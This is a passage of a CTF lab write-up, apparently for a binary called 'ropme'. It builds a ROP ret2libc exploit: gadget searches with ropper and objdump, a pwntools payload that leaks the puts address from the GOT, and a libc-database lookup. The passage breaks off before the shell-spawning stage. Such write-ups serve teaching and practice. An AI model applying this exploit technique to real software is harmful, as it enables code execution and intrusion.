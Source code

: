 # First lap - collecting addresses
Big shoutout to `0xdf` for his writeup on `Ellingson`. Since we have the same initial conditions as in the root part of `Ellingson` we can follow his two-step approach and basically just need to find the right addresses. First we are looking for `pop rdi` to load the first value of the stack into the rdi register and then return.
{: .text-justify}
```bash
kali@kali:~$ ropper --file ropme --search "% ?di"
`0x00000000004006d3: pop rdi; ret;`
```
Now we need to think about what we want to put on the stack that will be moved into the rdi. We need to leak a libc address so why not try leaking the puts address in libc that has been loaded into the `GOT`. Using `objdump` or searching in `ghidra` will hand us the address of `puts` in `plt` and `GOT`:
{: .text-justify}
```
kali@kali:~$ objdump -D ropme | grep puts@GLIBC
4004e0:       ff 25 32 0b 20 00       jmpq   *0x200b32(%rip)        # 601018 <puts@GLIBC_2.2.5>
```
Finally we need the address of the main function to be able to send our second payload.
```
kali@kali:~$ objdump -D ropme | grep main
0000000000400626 <main>:
```
This leads to a payload of
```py
junk     = b'A'*72
puts_plt = p64(0x4004e0)	# p64 for 64-bit and correct endianess
pop_rdi  = p64(0x4006d3)
ret_main = p64(0x400626)
puts_got = p64(0x601018)

payload = b''
payload += junk + pop_rdi + puts_got + puts_plt + ret_main

p.sendline(payload)
leaked_puts = u64(p.recvline()[:-1].ljust(8, b'\x00'))
log.success("Leaked puts address: 0x%x" % leaked_puts)
```
So after the junk, we load the address stored in the GOT into the rdi register, return to puts which will leak the address and then return back to the main function of the program.<br>
This way we get the libc address leak:
```bash
[+] Leaked puts address: 0x7f6e03c4a690
```
# Second lap - getting shell
We do not have access to the `libc` of the box but we are still able to use the [libc database](https://github.com/niklasb/libc-database) with our data leak. Just feeding in the last three digits of the leak will result in two possible libcs:
```bash
kali@kali:/opt/libc-database$ ./find puts 690
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```
We go with the first, download it and grab the address of `puts`
```bash
kali@kali:/opt/libc-database/libs/libc6_2.23-0ubuntu10_amd64$ readelf -s libc.so.6 | grep "puts@@GLIBC"
   186: 000000000006f690   456 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
```
as well as the addresses of `execve("/bin/sh")`:
```bash
```